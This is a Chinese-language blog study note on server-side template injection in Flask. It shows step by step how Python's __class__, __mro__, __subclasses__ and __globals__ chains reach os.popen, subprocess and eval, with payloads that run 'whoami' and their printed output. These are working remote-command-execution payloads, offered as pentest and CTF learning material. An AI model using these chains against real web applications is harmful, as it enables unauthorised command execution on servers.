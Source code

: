 ```yaml
---
draft: false
isCJKLanguage: true
date: 2021-07-11
lastmod: 2024-05-23
title: "Flask 模版注入（SSTI）"
description: 我的个人博客，主要用于记录自己的一些渗透测试、编程等学习笔记之类的东西。
categories: 
  - Pentest
tags:
  - python
  - ctf
  - rce
---
```



### 0x00 SSTI 模版注入
SSTI 模版注入一般都是先找到执行命令的模块模块，然后执行（可以用工具 tplmap）

一般步骤：  
1、某种类型 (字符串:""，list:[]，int：1) 开始引出  
2、`__class__` 找到当前类  
3、`__mro__` 或者 `__base__` 或者 `__bases__` 找到根类 `__object__`  
4、然后利用 `__subclasses__` 拿到子类列表  
5、然后在子类列表 `__init__.__globals__.keys()` 找到类似 popen 能执行命令的函数


### 0x01 python3 例子
* 当前类
    ```py
    # __class__ 返回对象所属类
    >>> ''.__class__
    <class 'str'>
    ```

* 获取 object 根类
    ```py
    # __mro__、__bases__ 都可以返回继承链关系
    >>> ''.__class__.__mro__
    (<class 'str'>, <class 'object'>)
    >>> ''.__class__.__bases__
    (<class 'object'>,)
    ```

* 获取子类列表
    ```py
    # __subclasses__() 以列表返回类的所有子类
    >>> ''.__class__.__mro__[1].__subclasses__()
    [<type 'type'>,
    <type 'weakref'>,
    <type 'weakcallableproxy'>,
    <type 'super'>,
    <type 'dict'>,
    <type 'set'>,
    ......
    ......
    <class 'site._Printer'>,
    <class 'site._Helper'>,
    <class 'site.Quitter'>,
    <class 'codecs.IncrementalEncoder'>,
    <class 'codecs.IncrementalDecoder'>]
    ```

* 通过 os.popen、os.system、subprocess.Popen 执行命令
    
    找到存在 popen、system 等可以执行命令的类
    ```py
    >>> for i,v in enumerate(''.__class__.__bases__[0].__subclasses__()):
    ...     try:
    ...         if 'popen' in v.__init__.__globals__:
    ...             print(i, v)
    ...     except:
    ...         pass
    ...
    154 <class 'os._wrap_close'>
    
    >>> for i,v in enumerate(''.__class__.__bases__[0].__subclasses__()):
    ...     try:
    ...         if 'Popen' in v.__init__.__globals__:
    ...             print(i, v)
    ...     except:
    ...         pass
    ...
    250 <class 'subprocess.CompletedProcess'>
    251 <class 'subprocess.Popen'>
    ```

    通过 `__init__` 初始化类实例
    ```py
    >>> ''.__class__.__bases__[0].__subclasses__()[154].__init__
    <function _wrap_close.__init__ at 0x1081df740>
    ```
    
    通过 `__globals__` 拿到字典类型的内建模块，可以看到 popen
    ```py
    >>> ''.__class__.__mro__[2].__subclasses__()[74].__init__.__globals__
    {'__name__': 'os', 
    '__doc__': "OS routines for...", 
    '__package__': '', 
    '__doc__': "Built-in function....", 
    ......
    ......
    '__all__': [
        'spawnv', 
        'spawnve', 
        'spawnvp', 
        'spawnvpe', 
        'popen',
        ......
    ], 
    'fdopen': <function fdopen at 0x1081df6a0>, 
    '_fspath': <function _fspath at 0x1081dfb00>, 
    'PathLike': <class 'os.PathLike'>}
    ```
    
    初始化后执行命令
    ```py
    >>> ''.__class__.__bases__[0].__subclasses__()[154].__init__.__globals__['popen']('whoami').read()
    'reber\n'
    ```

* 直接通过 os 模块执行命令
    
    其实上面的例子用的是 os 模块
    ```py
    >>> for i,v in enumerate(''.__class__.__bases__[0].__subclasses__()):
    ...     try:
    ...         if 'os' in v.__init__.__globals__:
    ...             print(i, v)
    ...     except:
    ...         pass
    ...
    158 <class '_distutils_hack._TrivialRe'>
    232 <class 'contextlib._GeneratorContextManagerBase'>
    233 <class 'contextlib._BaseExitStack'>
    239 <class 'inspect.BlockFinder'>
    242 <class 'inspect.Parameter'>
    243 <class 'inspect.BoundArguments'>
    244 <class 'inspect.Signature'>
    250 <class 'subprocess.CompletedProcess'>
    251 <class 'subprocess.Popen'>
    ```
    
    执行命令
    ```py
    >>> ''.__class__.__bases__[0].__subclasses__()[158].__init__.__globals__['os'].popen('whoami').read()
    'reber\n'
    ```
    
    这种方法<f>不准确</f>，因为一些不相关的类名中也存在字符串 "os"

* 通过 `__builtins__` 执行命令
    
    `__builtins__` 下有 eval、`__import__` 等函数
    ```py
    >>> for i,v in enumerate(''.__class__.__bases__[0].__subclasses__()):
    ...     try:
    ...         if 'eval' in v.__init__.__globals__['__builtins__']:
    ...             print(i, v)
    ...     except:
    ...         pass
    ...
    140 <class 'codecs.IncrementalEncoder'>
    141 <class 'codecs.IncrementalDecoder'>
    142 <class 'codecs.StreamReaderWriter'>
    143 <class 'codecs.StreamRecoder'>
    154 <class 'os._wrap_close'>
    155 <class '_sitebuiltins.Quitter'>
    163 <class 'warnings.WarningMessage'>
    164 <class 'warnings.catch_warnings'>
    191 <class 'reprlib.Repr'>
    201 <class 'functools.partialmethod'>
    ```
    
    通过第 140 个的类执行命令
    ```py
    >>> ''.__class__.__bases__[0].__subclasses__()[140].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')
    'reber\n'
    >>> ().__class__.__bases__[0].__subclasses__()[140].__init__.__globals__['__builtins__']['__import__']('os').popen('whoami').read()
    'reber\n'
    ```


**Reference(侵删)：**
* [Flask基础及模板注入漏洞（SSTI）](https://xz.aliyun.com/t/12163?_blank)
* [SSTI的payload](https://www.cnblogs.com/chrysanthemum/p/12766783.html?_blank)
* [Python 沙盒逃逸备忘](https://www.k0rz3n.com/2018/05/04/Python%20沙盒逃逸备忘/?_blank)
